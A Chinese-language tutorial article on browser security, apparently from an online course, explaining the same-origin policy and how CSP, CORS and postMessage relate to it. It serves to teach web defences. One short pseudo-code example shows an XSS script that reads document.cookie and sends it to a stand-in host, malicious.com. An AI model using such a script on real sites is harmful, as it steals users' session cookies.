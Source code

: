 <audio title="32 _ 同源策略：为什么XMLHttpRequest不能跨域请求资源？" src="https://static001.geekbang.org/resource/audio/ad/5a/ad6bcea8db1937b21a5182c6a53f415a.mp3" controls="controls"></audio> 
<p>通过前面6个模块的介绍，我们已经大致知道浏览器是怎么工作的了，也了解这种工作方式对前端产生了什么样的影响。在这个过程中，我们还穿插介绍了一些浏览器安全相关的内容，不过都比较散，所以最后的5篇文章，我们就来系统地介绍下浏览器安全相关的内容。</p><p>浏览器安全可以分为三大块——<strong>Web页面安全、浏览器网络安全</strong>和<strong>浏览器系统安全</strong>，所以本模块我们就按照这个思路来做介绍。鉴于页面安全的重要性，我们会用三篇文章来介绍该部分的知识；网络安全和系统安全则分别用一篇来介绍。</p><p>今天我们就先来分析页面中的安全策略，不过在开始之前，我们先来做个假设，如果页面中没有安全策略的话，Web世界会是什么样子的呢？</p><p>Web世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频/视频等资源，甚至可以下载其他站点的可执行文件。</p><p>Web世界是开放的，这很符合Web理念。但如果Web世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题。</p><p>比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：</p><ul>
<li>修改银行站点的DOM、CSSOM等信息；</li>
<li>在银行站点内部插入JavaScript脚本；</li>
<li>劫持用户登录的用户名和密码；</li>
<li>读取银行站点的Cookie、IndexDB等数据；</li>
<li>甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。</li>
</ul><!-- [[[read_end]]] --><p>所以说，<strong>在没有安全保障的Web世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全</strong>。</p><p>这就引出了页面中最基础、最核心的安全策略：<strong>同源策略（Same-origin policy）</strong>。</p><h2>什么是同源策略</h2><p>要了解什么是同源策略，我们得先来看看什么是同源。</p><p><strong>如果两个URL的协议、域名和端口都相同，我们就称这两个URL同源</strong>。比如下面这两个URL，它们具有相同的协议HTTPS、相同的域名time.geekbang.org，以及相同的端口443，所以我们就说这两个URL是同源的。</p><pre><code>https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
</code></pre><p>浏览器默认两个相同的源之间是可以相互访问资源和操作DOM的。两个不同的源之间若想要相互访问资源或者操作DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。</p><p>具体来讲，同源策略主要表现在DOM、Web数据和网络这三个层面。</p><p><strong>第一个，DOM层面</strong>。同源策略限制了来自不同源的JavaScript脚本对当前DOM对象读和写的操作。</p><p>这里我们还是拿极客时间的官网做例子，打开极客时间的官网，然后再从官网中打开另外一个专栏页面，如下图所示：</p><p><img src="https://static001.geekbang.org/resource/image/c9/d7/c9294ee10c571c8b7061a5c8f03b6cd7.png" alt=""></p><center><span class="reference">通过极客时间官网打开一个专栏页面</span></center><p>由于第一个页面和第二个页面是同源关系，所以我们可以在第二个页面中操作第一个页面的DOM，比如将第一个页面全部隐藏掉，代码如下所示：</p><pre><code>{
let pdom = opener.document
pdom.body.style.display = &quot;none&quot;
}
</code></pre><p>该代码中，对象opener就是指向第一个页面的window对象，我们可以通过操作opener来控制第一个页面中的DOM。</p><p>我们在第二个页面的控制台中执行上面那段代码，就成功地操作了第一个页面中的DOM，将页面隐藏了，如下图：</p><p><img src="https://static001.geekbang.org/resource/image/2a/25/2a988d3d2f82aa4230f2b5025134b125.png" alt=""></p><center><span class="reference">通过第二个页面操纵第一个页面的DOM</span></center><p>不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作DOM了。比如从极客时间官网打开InfoQ的页面（由于它们的域名不同，所以不是同源的），然后我们还按照前面同样的步骤来操作，最终操作结果如下图所示：</p><p><img src="https://static001.geekbang.org/resource/image/71/b5/711d96a58f670bda0d9b9608165839b5.png" alt=""></p><center><span class="reference">不同源的两个页面不能相互操纵DOM</span></center><p>从图中可以看出，当我们在InfoQ的页面中访问极客时间页面中的DOM时，页面抛出了如下的异常信息，这就是同源策略所发挥的作用。</p><pre><code>Blocked a frame with origin &quot;https://www.infoq.cn&quot; from accessing a cross-origin frame.
</code></pre><p><strong>第二个，数据层面</strong>。同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据。由于同源策略，我们依然无法通过第二个页面的opener来访问第一个页面中的Cookie、IndexDB或者LocalStorage等内容。你可以自己试一下，这里我们就不做演示了。</p><p><strong>第三个，网络层面</strong>。同源策略限制了通过XMLHttpRequest等方式将站点的数据发送给不同源的站点。你还记得在<a href="https://time.geekbang.org/column/article/135127">《17 | WebAPI：XMLHttpRequest是怎么实现的？》</a>这篇文章的末尾分析的XMLHttpRequest在使用过程中所遇到的坑吗？其中第一个坑就是在默认情况下不能访问跨域的资源。</p><h2>安全和便利性的权衡</h2><p>我们了解了同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。</p><p>不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得Web项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是XSS攻击和CSRF攻击，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。</p><h3>1. 页面中可以嵌入第三方资源</h3><p>我们在文章开头提到过，Web世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有HTML文件、JavaScript文件、CSS文件、图片等资源都部署在同一台服务器上，这无疑违背了Web的初衷，也带来了诸多限制。比如将不同的资源部署到不同的CDN上时，CDN上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。</p><p>所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往HTML文件中插入恶意脚本。</p><p>比如，恶意程序在HTML文件内容中插入如下一段JavaScript代码：</p><p><img src="https://static001.geekbang.org/resource/image/74/de/741dc2c53217aee177d18375a7aa94de.png" alt=""></p><p>当这段HTML文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。</p><p>除此之外，它还能将页面的的敏感数据，如Cookie、IndexDB、LoacalStorage等数据通过XSS的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意JavaScript代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：</p><pre><code>function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
</code></pre><p>在这段代码中，恶意脚本读取Cookie数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的Cookie信息。</p><p>以上就是一个非常典型的XSS攻击。为了解决XSS攻击，浏览器中引入了内容安全策略，称为CSP。<strong>CSP的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码</strong>。通过这些手段就可以大大减少XSS攻击。</p><h3>2. 跨域资源共享和跨文档消息机制</h3><p>默认情况下，如果打开极客邦的官网页面，在官网页面中通过XMLHttpRequest或者Fetch来请求InfoQ中的资源，这时同源策略会阻止其向InfoQ发出请求，这样会大大制约我们的生产力。</p><p>为了解决这个问题，我们引入了<strong>跨域资源共享（CORS）</strong>，使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。</p><p>在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵DOM。不过在实际应用中，经常需要两个不同源的DOM之间进行通信，于是浏览器中又引入了<strong>跨文档消息机制</strong>，可以通过window.postMessage的JavaScript接口来和不同源的DOM进行通信。</p><h2>总结</h2><p>好了，今天就介绍到这里，下面我来总结下本文的主要内容。</p><p>同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。</p><p>不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：</p><ol>
<li>页面中可以引用第三方资源，不过这也暴露了很多诸如XSS的安全问题，因此又在这种开放的基础之上引入了CSP来限制其自由程度。</li>
<li>使用XMLHttpRequest和Fetch都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。</li>
<li>两个不同源的DOM是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。</li>
</ol><h2>思考时间</h2><p>今天留给你的作业：你来总结一下同源策略、CSP和CORS之间的关系，这对于你理解浏览器的安全策略至关重要。</p><p>欢迎在留言区与我分享你的想法，也欢迎你在留言区记录你的思考过程。感谢阅读，如果你觉得这篇文章对你有帮助的话，也欢迎把它分享给更多的朋友。</p><p></p>